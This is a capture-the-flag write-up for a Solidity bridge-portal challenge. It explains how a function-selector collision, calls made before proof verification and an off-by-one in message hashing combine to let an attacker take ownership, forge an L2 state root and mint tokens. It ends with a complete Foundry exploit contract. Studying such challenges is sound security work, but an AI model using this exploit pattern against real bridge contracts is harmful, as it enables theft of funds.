

## Challenge
### Description
This portal relies on a complex chain of cryptographic proofs to <br>verify cross-chain messages. It claims to be secure against invalid <br>state transitions, but the gap between verification and execution might <br>be wider than it looks.
Can you manage to mint some tokens for your wallet?
Things that might help:
- Understanding Function Selectors.
- The Checks-Effects-Interactions (CEI) pattern.
- Merkle Patricia Tries and RLP encoding.

Tips:
- Sometimes the data you verify isn't exactly the same data you execute.
- If a hash cycle seems impossible to solve, look for a way to break the loop.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// https://github.com/ethereum-optimism/optimism/blob/@eth-optimism/contracts@0.6.0/packages/contracts/contracts/libraries/rlp/Lib_RLPReader.sol
import { Lib_RLPReader } from "../helpers/lib/rlp/Lib_RLPReader.sol";
// https://github.com/ethereum-optimism/optimism/blob/@eth-optimism/contracts@0.6.0/packages/contracts/contracts/libraries/trie/Lib_SecureMerkleTrie.sol
import { Lib_SecureMerkleTrie } from "../helpers/lib/trie/Lib_SecureMerkleTrie.sol";
import { ReentrancyGuard } from "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IMessageReceiver {
    function onMessageReceived(bytes memory messageData) external;
}

contract NotOptimisticPortal is ERC20, ReentrancyGuard{
    using Lib_RLPReader for bytes;
    using Lib_RLPReader for Lib_RLPReader.RLPItem;

    struct ProofData {
        bytes stateTrieProof;
        bytes storageTrieProof;
        bytes accountStateRlp;
    }

    address public constant L2_TARGET = 0x4242424242424242424242424242424242424242;
    uint16 public constant MAX_ROOT_BUFFER = 1000;

    // Shared data
    address public owner;
    address public sequencer;
    address public immutable governance;

    // L2 state data
    bytes32 public latestBlockHash;
    uint256 public latestBlockNumber;
    uint256 public latestBlockTimestamp;
    bytes32[MAX_ROOT_BUFFER] public l2StateRoots;
    uint16 public bufferCounter;
    mapping(bytes32 => bool) public executedMessages;

    event MessageExecuted(
        address indexed to,
        uint256 indexed amount,
        address[] targetAddresses,
        bytes[] executionDatas,
        uint256 salt
    );

    constructor(
        string memory _name,
        string memory _symbol,
        bytes memory _rlpBlockHeader, 
        address _governance
    ) ERC20(_name, _symbol) {
        owner = msg.sender;
        (bytes32 parentHash, bytes32 stateRoot, uint256 blockNumber, uint256 timestamp) = _extractData(_rlpBlockHeader);
        _updateL2State(keccak256(_rlpBlockHeader), parentHash, stateRoot, blockNumber, timestamp);
        governance = _governance;
    }

    function executeMessage(
        address _tokenReceiver,
        uint256 _amount,
        address[] calldata _messageReceivers,
        bytes[] calldata _messageData,
        uint256 _salt,
        ProofData calldata _proofs,
        uint16 _bufferIndex
    ) external nonReentrant {
        bytes32 withdrawalHash = _computeMessageSlot(
            _tokenReceiver,
            _amount,
            _messageReceivers,
            _messageData,
            _salt
        );
        require(!executedMessages[withdrawalHash], "Message already executed");
        require(_messageReceivers.length == _messageData.length, "Message execution data arrays mismatch");

        for(uint256 i; i < _messageData.length; i++){
            _executeOperation(_messageReceivers[i], _messageData[i], false);
        }

        _verifyMessageInclusion(
            withdrawalHash,
            _proofs.stateTrieProof,
            _proofs.storageTrieProof,
            _proofs.accountStateRlp,
            _bufferIndex
        );

        executedMessages[withdrawalHash] = true;

        if(_amount != 0){
            _mint(_tokenReceiver, _amount);
        }
        emit MessageExecuted(
            _tokenReceiver,
            _amount,
            _messageReceivers,
            _messageData,
            _salt
        );
    }

    function sendMessage(
        uint256 _amount,
        address[] calldata _messageReceivers,
        bytes[] calldata _messageData,
        uint256 _salt
    ) external {
        require(_messageReceivers.length == _messageData.length, "Message array mismatch");
        for(uint256 i; i < _messageData.length; i++){
            require(bytes4(_messageData[i][0:4]) == bytes4(0x3a69197e), "Message not allowed");
        }
        bytes32 storageSlot = _computeMessageSlot(
            msg.sender,
            _amount,
            _messageReceivers,
            _messageData,
            _salt
        );
        uint256 slotValue;
        assembly{
            slotValue := sload(storageSlot)
        }
        require(slotValue == 0, "Message already sent");
        assembly{
            sstore(storageSlot, 0x01)
        }
        _burn(msg.sender, _amount);
    }

    // Permissioned function (optimized to be at the end of the function selector dispatching)
    function submitNewBlock_____37278985983(bytes memory rlpBlockHeader) external onlySequencer {
        (bytes32 parentHash, bytes32 stateRoot, uint256 blockNumber, uint256 timestamp) = _extractData(rlpBlockHeader);
        _updateL2State(keccak256(rlpBlockHeader), parentHash, stateRoot, blockNumber, timestamp);
    }

    function updateSequencer_____76439298743(address newSequencer) external onlyOwner {
        sequencer = newSequencer;
    }

    function transferOwnership_____610165642(address newOwner) external onlyOwner {
        owner = newOwner;
    }

    function governanceAction_____2357862414(address target, bytes calldata callData) external onlyGovernance {
        _executeOperation(target, callData, true);
    }

    // Governance must be able to transfer portal ownership
    modifier onlyOwner() {
        require(msg.sender == owner || msg.sender == address(this), "Caller not owner");
        _;
    }

    modifier onlySequencer() {
        require(msg.sender == sequencer, "Caller not sequencer");
        _;
    }

    modifier onlyGovernance() {
        require(msg.sender == governance, "Caller not governance");
        _;
    }

    // Internal functions
    function _computeMessageSlot(
        address _tokenReceiver,
        uint256 _amount,
        address[] calldata _messageReceivers,
        bytes[] calldata _messageDatas,
        uint256 _salt
    ) internal pure returns(bytes32){
        bytes32 messageReceiversAccumulatedHash;
        bytes32 messageDatasAccumulatedHash;
        if(_messageReceivers.length != 0){
            for(uint i; i < _messageReceivers.length - 1; i++){
                messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, _messageReceivers[i]));
                messageDatasAccumulatedHash = keccak256(abi.encode(messageDatasAccumulatedHash, _messageDatas[i]));
            }
        }
        return keccak256(abi.encode(
            _tokenReceiver,
            _amount,
            messageReceiversAccumulatedHash,
            messageDatasAccumulatedHash,
            _salt
        ));
    }

    function _extractData(bytes memory rlpBlockHeader) internal pure
        returns(
            bytes32 parentHash,
            bytes32 stateRoot,
            uint256 number,
            uint256 timestamp
        ){
            Lib_RLPReader.RLPItem[] memory header = rlpBlockHeader.toRLPItem().readList();

            parentHash = bytes32(header[0].readUint256());
            stateRoot = bytes32(header[3].readUint256());
            number = header[8].readUint256();
            timestamp = header[11].readUint256();
    }

    function _verifyMessageInclusion(
        bytes32 messageSlot,
        bytes calldata stateTrieProof,
        bytes calldata storageTrieProof,
        bytes calldata accountStateRlp,
        uint16 bufferIndex
    ) internal view {
        // Verify L2_TARGET in state root
        bool accountVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
            abi.encodePacked(L2_TARGET),
            accountStateRlp,
            stateTrieProof,
            l2StateRoots[bufferIndex]
        );
        require(accountVerified, "Invalid account proof");

        // Extract storageRoot
        Lib_RLPReader.RLPItem[] memory accountState = accountStateRlp.toRLPItem().readList();
        
        // Account state is [nonce, balance, storageRoot, codeHash]
        bytes32 storageRoot = accountState[2].readBytes32();

        // Verify message slot in storage root
        bool slotVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
            abi.encodePacked(messageSlot),
            hex"01",
            storageTrieProof,
            storageRoot
        );
        require(slotVerified, "Invalid storage proof");
    }

    function _updateL2State(
        bytes32 newBlockHash,
        bytes32 parentBlockHash,
        bytes32 newRootState,
        uint256 newBlockNumber,
        uint256 newTimestamp
    ) internal {
        if(latestBlockHash != 0) require(parentBlockHash == latestBlockHash, "Invalid parent block hash");
        if(latestBlockNumber != 0) require(newBlockNumber == latestBlockNumber + 1, "Invalid block number");
        require(newTimestamp > latestBlockTimestamp, "Invalid timestamp");

        latestBlockHash = newBlockHash;
        l2StateRoots[bufferCounter] = newRootState;
        bufferCounter = (bufferCounter + 1) % 1000;
        latestBlockNumber = newBlockNumber;
        latestBlockTimestamp = newTimestamp;
    }

    function _executeOperation(
        address target,
        bytes calldata callData,
        bool isGovernanceAction
    ) internal {
        if(!isGovernanceAction){
            // Ensure the execution is the onMessageReceived(bytes) entrypoint on the target address
            require(bytes4(callData[0:4]) == bytes4(0x3a69197e), "Invalid message entrypoint");
        }
        (bool success, ) = target.call(callData);
        require(success, "Execution failed");
    }
}
```
## Background

---

In the EVM, an external function call selects which function to execute by the first 4 bytes of the calldata. This value is produced by hashing the function signature string with `keccak256` and taking only the first 4 bytes.
The two function signatures below share the same first 4 bytes.
```bash
$ cast sig "onMessageReceived(bytes)"
0x3a69197e
$ cast sig "transferOwnership_____610165642(address)"
0x3a69197e
```
For a regular message execution, `_executeOperation` checks whether the first 4 bytes of the calldata are `0x3a69197e`. The original intent is to allow only `onMessageReceived(bytes)`, but checking only the selector lets other functions with the same selector pass as well.
Call data for `transferOwnership_____610165642(address)` can also pass the message execution restriction.

---

CEI is the Checks-Effects-Interactions pattern, which says to finish state validation and state changes first and do external calls last. Here it is the other way around.
`executeMessage` iterates over `_messageReceivers` and executes external calls first, before verifying the message inclusion proof. If an external call can change the portal's permission state or the L2 state root buffer, then the very data that verification is based on at the time it runs can be altered.
So, because of the external calls made before verification, the attacker can prepare the state that the verification logic will reference.

---

`_verifyMessageInclusion` uses Optimism's `Lib_SecureMerkleTrie`. In a secure trie, the original key is not used directly as the trie path; instead `keccak256(key)` is used as the path.
Verification in this challenge has two steps.
1. Verify that the `L2_TARGET` account exists in the state trie.
2. Extract that account's `storageRoot` and verify that `messageSlot -> 0x01` exists in the storage trie.

The account state is RLP-encoded in the form `[nonce, balance, storageRoot, codeHash]`. The storage proof can be built as a trie with a single leaf keyed by `messageSlot`, and the state proof can be built as a trie with a single leaf for the `L2_TARGET` account. The root is then the `keccak256` of that leaf node.
## Code analysis

---

Here is the factory's validation condition.
```solidity
function validateInstance(address payable _instance, address) public view override returns (bool) {
    NotOptimisticPortal instance = NotOptimisticPortal(_instance);
    return instance.totalSupply() > 0;
}
```
The goal is to make the portal token's `totalSupply()` greater than 0. In `executeMessage`, if `_amount != 0` then `_mint(_tokenReceiver, _amount)` runs, so ultimately we just need to pass a valid withdrawal message to trigger a mint.

---

The execution order in `executeMessage` is as follows.
```solidity
function executeMessage(
    address _tokenReceiver,
    uint256 _amount,
    address[] calldata _messageReceivers,
    bytes[] calldata _messageData,
    uint256 _salt,
    ProofData calldata _proofs,
    uint16 _bufferIndex
) external nonReentrant {
    bytes32 withdrawalHash = _computeMessageSlot(
        _tokenReceiver,
        _amount,
        _messageReceivers,
        _messageData,
        _salt
    );
    require(!executedMessages[withdrawalHash], "Message already executed");
    require(_messageReceivers.length == _messageData.length, "Message execution data arrays mismatch");

    for(uint256 i; i < _messageData.length; i++){
        _executeOperation(_messageReceivers[i], _messageData[i], false);
    }

    _verifyMessageInclusion(
        withdrawalHash,
        _proofs.stateTrieProof,
        _proofs.storageTrieProof,
        _proofs.accountStateRlp,
        _bufferIndex
    );

    executedMessages[withdrawalHash] = true;

    if(_amount != 0){
        _mint(_tokenReceiver, _amount);
    }
}
```
It computes `withdrawalHash` and checks only whether it has already been used, then runs `_executeOperation` before verifying the proof. If this external call can change the portal's `owner`, `sequencer`, or `l2StateRoots`, then the subsequent `_verifyMessageInclusion` can pass against the state the attacker prepared.
`nonReentrant` blocks re-entering the same `executeMessage`, but it does not block calls to other functions. So a flow where the callback calls `updateSequencer_____76439298743` and `submitNewBlock_____37278985983` is possible.

---

Next is `_computeMessageSlot`.
```solidity
function _computeMessageSlot(
    address _tokenReceiver,
    uint256 _amount,
    address[] calldata _messageReceivers,
    bytes[] calldata _messageDatas,
    uint256 _salt
) internal pure returns(bytes32){
    bytes32 messageReceiversAccumulatedHash;
    bytes32 messageDatasAccumulatedHash;
    if(_messageReceivers.length != 0){
        for(uint i; i < _messageReceivers.length - 1; i++){
            messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, _messageReceivers[i]));
            messageDatasAccumulatedHash = keccak256(abi.encode(messageDatasAccumulatedHash, _messageDatas[i]));
        }
    }
    return keccak256(abi.encode(
        _tokenReceiver,
        _amount,
        messageReceiversAccumulatedHash,
        messageDatasAccumulatedHash,
        _salt
    ));
}
```
The loop condition is `i < _messageReceivers.length - 1`. If the array has 2 elements, only element 0 goes into the hash and element 1 is left out.
The verified message includes only the first operation, but the actual execution runs both the first and second operations. This makes the verification target and the actual execution target differ.
In the attack, set operation 0 to `transferOwnership_____610165642(address(this))` and operation 1 to the attacker contract's `onMessageReceived(bytes)` callback. Build the proof to match the `withdrawalHash` that includes only operation 0, and in the actual execution run operation 1's callback as well.

---

The selector check is also a problem.
```solidity
function _executeOperation(
    address target,
    bytes calldata callData,
    bool isGovernanceAction
) internal {
    if(!isGovernanceAction){
        require(bytes4(callData[0:4]) == bytes4(0x3a69197e), "Invalid message entrypoint");
    }
    (bool success, ) = target.call(callData);
    require(success, "Execution failed");
}
```
For a regular message execution, it checks whether the selector is `0x3a69197e`. But `transferOwnership_____610165642(address)` also has the selector `0x3a69197e`.
```solidity
function transferOwnership_____610165642(address newOwner) external onlyOwner {
    owner = newOwner;
}

modifier onlyOwner() {
    require(msg.sender == owner || msg.sender == address(this), "Caller not owner");
    _;
}
```
`_executeOperation` runs `target.call(callData)`, and if the target is the portal itself, `msg.sender` becomes the portal address. `onlyOwner` allows `msg.sender == address(this)`, so when the portal calls `transferOwnership` on itself, the ownership transfer passes.
So the first message execution alone can make the attacker contract the `owner`.

---

After seizing ownership, we can change the sequencer and the state root.
```solidity
function updateSequencer_____76439298743(address newSequencer) external onlyOwner {
    sequencer = newSequencer;
}

function submitNewBlock_____37278985983(bytes memory rlpBlockHeader) external onlySequencer {
    (bytes32 parentHash, bytes32 stateRoot, uint256 blockNumber, uint256 timestamp) = _extractData(rlpBlockHeader);
    _updateL2State(keccak256(rlpBlockHeader), parentHash, stateRoot, blockNumber, timestamp);
}
```
Once the attacker contract becomes owner via the first operation, the second callback can call `updateSequencer` to make itself the sequencer. Then it submits a new block header with the desired `stateRoot` via `submitNewBlock`.
`executeMessage` runs the callback before verifying the proof. The attack code saves `bufferIndex = target.bufferCounter()` in advance, and in the callback calls `submitNewBlock` to record the attacker-crafted `stateRoot` at exactly that index. Afterward, `_verifyMessageInclusion` verifies the proof against the root just recorded.

---

Last is the proof verification.
```solidity
function _verifyMessageInclusion(
    bytes32 messageSlot,
    bytes calldata stateTrieProof,
    bytes calldata storageTrieProof,
    bytes calldata accountStateRlp,
    uint16 bufferIndex
) internal view {
    bool accountVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
        abi.encodePacked(L2_TARGET),
        accountStateRlp,
        stateTrieProof,
        l2StateRoots[bufferIndex]
    );
    require(accountVerified, "Invalid account proof");

    Lib_RLPReader.RLPItem[] memory accountState = accountStateRlp.toRLPItem().readList();
    bytes32 storageRoot = accountState[2].readBytes32();

    bool slotVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
        abi.encodePacked(messageSlot),
        hex"01",
        storageTrieProof,
        storageRoot
    );
    require(slotVerified, "Invalid storage proof");
}
```
It needs a storage proof that `messageSlot` holds `hex"01"`, and a state proof that the `L2_TARGET` account with that storage root exists in the state trie.
But since `l2StateRoots[bufferIndex]` itself can be changed in the callback, there is no need to know the actual past L2 state. The attacker directly constructs a storage trie with `messageSlot -> 0x01` and an account state trie with that `storageRoot`, and submits that root as the `stateRoot` of a new block header.
## Solution
`executeMessage` executes messages before verification. The first message uses a selector collision to make the portal call `transferOwnership_____610165642(address(this))` on itself. Since `onlyOwner` allows `msg.sender == address(this)`, the attacker contract becomes owner.
The second message is not included in `_computeMessageSlot` but is actually executed. In this callback, the attacker contract uses owner privileges to set itself as the sequencer, and uses sequencer privileges to submit a block header with an attacker-crafted `stateRoot`.
Then, when `executeMessage` returns to its original flow and runs `_verifyMessageInclusion`, `l2StateRoots[bufferIndex]` is already the attacker-crafted root. The proof was built to match that root, so verification passes, and finally `_mint(_tokenReceiver, _amount)` runs.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface INotOptimisticPortal {
    struct ProofData {
        bytes stateTrieProof;
        bytes storageTrieProof;
        bytes accountStateRlp;
    }

    function executeMessage(
        address tokenReceiver,
        uint256 amount,
        address[] calldata messageReceivers,
        bytes[] calldata messageData,
        uint256 salt,
        ProofData calldata proofs,
        uint16 bufferIndex
    ) external;
    function updateSequencer_____76439298743(address newSequencer) external;
    function submitNewBlock_____37278985983(bytes memory rlpBlockHeader) external;
    function latestBlockHash() external view returns (bytes32);
    function latestBlockNumber() external view returns (uint256);
    function latestBlockTimestamp() external view returns (uint256);
    function bufferCounter() external view returns (uint16);
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
}

library Sol40RLPWriter {
    function writeBytes(bytes memory input) internal pure returns (bytes memory) {
        if (input.length == 1 && uint8(input[0]) < 128) {
            return input;
        }

        return abi.encodePacked(_writeLength(input.length, 128), input);
    }

    function writeList(bytes[] memory input) internal pure returns (bytes memory) {
        bytes memory payload = _flatten(input);
        return abi.encodePacked(_writeLength(payload.length, 192), payload);
    }

    function writeUint(uint256 input) internal pure returns (bytes memory) {
        if (input == 0) {
            return writeBytes("");
        }

        uint256 temp = input;
        uint256 length;
        while (temp != 0) {
            length++;
            temp >>= 8;
        }

        bytes memory output = new bytes(length);
        for (uint256 i; i < length; i++) {
            // forge-lint: disable-next-line(unsafe-typecast)
            output[length - 1 - i] = bytes1(uint8(input >> (i * 8)));
        }

        return writeBytes(output);
    }

    function _writeLength(uint256 length, uint256 offset) private pure returns (bytes memory) {
        if (length < 56) {
            bytes memory encoded = new bytes(1);
            // forge-lint: disable-next-line(unsafe-typecast)
            encoded[0] = bytes1(uint8(length + offset));
            return encoded;
        }

        uint256 temp = length;
        uint256 lengthOfLength;
        while (temp != 0) {
            lengthOfLength++;
            temp >>= 8;
        }

        bytes memory encodedLength = new bytes(lengthOfLength + 1);
        // forge-lint: disable-next-line(unsafe-typecast)
        encodedLength[0] = bytes1(uint8(offset + 55 + lengthOfLength));
        for (uint256 i; i < lengthOfLength; i++) {
            // forge-lint: disable-next-line(unsafe-typecast)
            encodedLength[lengthOfLength - i] = bytes1(uint8(length >> (i * 8)));
        }

        return encodedLength;
    }

    function _flatten(bytes[] memory input) private pure returns (bytes memory) {
        uint256 length;
        for (uint256 i; i < input.length; i++) {
            length += input[i].length;
        }

        bytes memory output = new bytes(length);
        uint256 offset;

        for (uint256 i; i < input.length; i++) {
            bytes memory item = input[i];
            for (uint256 j; j < item.length; j++) {
                output[offset + j] = item[j];
            }
            offset += item.length;
        }

        return output;
    }
}

contract NotOptimisticPortalAttack {
    address private constant L2_TARGET = 0x4242424242424242424242424242424242424242;
    bytes32 private constant EMPTY_CODE_HASH = keccak256("");
    bytes4 private constant TRANSFER_OWNERSHIP_SELECTOR = bytes4(0x3a69197e);
    uint256 private constant MINT_AMOUNT = 1 ether;
    uint256 private constant SALT = 40;

    INotOptimisticPortal private portal;
    bytes private pendingBlockHeader;

    function attack(INotOptimisticPortal target, address tokenReceiver) external {
        portal = target;

        uint256 initialSupply = target.totalSupply();
        uint256 initialBalance = target.balanceOf(tokenReceiver);

        address[] memory messageReceivers = new address[](2);
        bytes[] memory messageData = new bytes[](2);

        messageReceivers[0] = address(target);
        messageData[0] = abi.encodeWithSelector(TRANSFER_OWNERSHIP_SELECTOR, address(this));
        messageReceivers[1] = address(this);
        messageData[1] = abi.encodeWithSelector(this.onMessageReceived.selector, "");

        bytes32 withdrawalHash = _computeMessageSlot(tokenReceiver, MINT_AMOUNT, messageReceivers, messageData, SALT);
        (INotOptimisticPortal.ProofData memory proofs, bytes32 stateRoot) = _buildProofs(withdrawalHash);

        pendingBlockHeader = _buildBlockHeader(target, stateRoot);
        uint16 bufferIndex = target.bufferCounter();

        target.executeMessage(tokenReceiver, MINT_AMOUNT, messageReceivers, messageData, SALT, proofs, bufferIndex);

        delete pendingBlockHeader;
        delete portal;

        require(target.totalSupply() == initialSupply + MINT_AMOUNT, "mint failed");
        require(target.balanceOf(tokenReceiver) == initialBalance + MINT_AMOUNT, "receiver balance mismatch");
    }

    function onMessageReceived(bytes memory) external {
        INotOptimisticPortal target = portal;
        require(msg.sender == address(target), "only portal");

        target.updateSequencer_____76439298743(address(this));
        target.submitNewBlock_____37278985983(pendingBlockHeader);
    }

    function _computeMessageSlot(
        address tokenReceiver,
        uint256 amount,
        address[] memory messageReceivers,
        bytes[] memory messageData,
        uint256 salt
    ) private pure returns (bytes32) {
        bytes32 messageReceiversAccumulatedHash;
        bytes32 messageDataAccumulatedHash;

        for (uint256 i; i < messageData.length - 1; i++) {
            messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, messageReceivers[i]));
            messageDataAccumulatedHash = keccak256(abi.encode(messageDataAccumulatedHash, messageData[i]));
        }

        return keccak256(abi.encode(tokenReceiver, amount, messageReceiversAccumulatedHash, messageDataAccumulatedHash, salt));
    }

    function _buildProofs(bytes32 messageSlot)
        private
        pure
        returns (INotOptimisticPortal.ProofData memory proofs, bytes32 stateRoot)
    {
        bytes memory storageLeaf = _leafNode(abi.encodePacked(messageSlot), hex"01");
        bytes32 storageRoot = keccak256(storageLeaf);

        bytes memory accountStateRlp = _accountStateRlp(storageRoot);
        bytes memory stateLeaf = _leafNode(abi.encodePacked(L2_TARGET), accountStateRlp);
        stateRoot = keccak256(stateLeaf);

        proofs = INotOptimisticPortal.ProofData({
            stateTrieProof: _proofForSingleLeaf(stateLeaf),
            storageTrieProof: _proofForSingleLeaf(storageLeaf),
            accountStateRlp: accountStateRlp
        });
    }

    function _leafNode(bytes memory key, bytes memory value) private pure returns (bytes memory) {
        bytes[] memory items = new bytes[](2);
        items[0] = Sol40RLPWriter.writeBytes(abi.encodePacked(bytes1(0x20), keccak256(key)));
        items[1] = Sol40RLPWriter.writeBytes(value);
        return Sol40RLPWriter.writeList(items);
    }

    function _proofForSingleLeaf(bytes memory leaf) private pure returns (bytes memory) {
        bytes[] memory proof = new bytes[](1);
        proof[0] = Sol40RLPWriter.writeBytes(leaf);
        return Sol40RLPWriter.writeList(proof);
    }

    function _accountStateRlp(bytes32 storageRoot) private pure returns (bytes memory) {
        bytes[] memory accountState = new bytes[](4);
        accountState[0] = Sol40RLPWriter.writeUint(0);
        accountState[1] = Sol40RLPWriter.writeUint(0);
        accountState[2] = Sol40RLPWriter.writeBytes(abi.encodePacked(storageRoot));
        accountState[3] = Sol40RLPWriter.writeBytes(abi.encodePacked(EMPTY_CODE_HASH));
        return Sol40RLPWriter.writeList(accountState);
    }

    function _buildBlockHeader(INotOptimisticPortal target, bytes32 stateRoot) private view returns (bytes memory) {
        bytes[] memory header = new bytes[](12);
        header[0] = Sol40RLPWriter.writeBytes(abi.encodePacked(target.latestBlockHash()));
        header[1] = Sol40RLPWriter.writeBytes("");
        header[2] = Sol40RLPWriter.writeBytes("");
        header[3] = Sol40RLPWriter.writeBytes(abi.encodePacked(stateRoot));
        header[4] = Sol40RLPWriter.writeBytes("");
        header[5] = Sol40RLPWriter.writeBytes("");
        header[6] = Sol40RLPWriter.writeBytes("");
        header[7] = Sol40RLPWriter.writeBytes("");
        header[8] = Sol40RLPWriter.writeUint(target.latestBlockNumber() + 1);
        header[9] = Sol40RLPWriter.writeBytes("");
        header[10] = Sol40RLPWriter.writeBytes("");
        header[11] = Sol40RLPWriter.writeUint(target.latestBlockTimestamp() + 1);
        return Sol40RLPWriter.writeList(header);
    }
}

contract Sol40 is Script {
    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        INotOptimisticPortal portal = INotOptimisticPortal(vm.envAddress("NOT_OPTIMISTIC_PORTAL_INSTANCE"));

        vm.startBroadcast(privateKey);
        NotOptimisticPortalAttack attackContract = new NotOptimisticPortalAttack();
        attackContract.attack(portal, player);
        vm.stopBroadcast();
    }
}
```

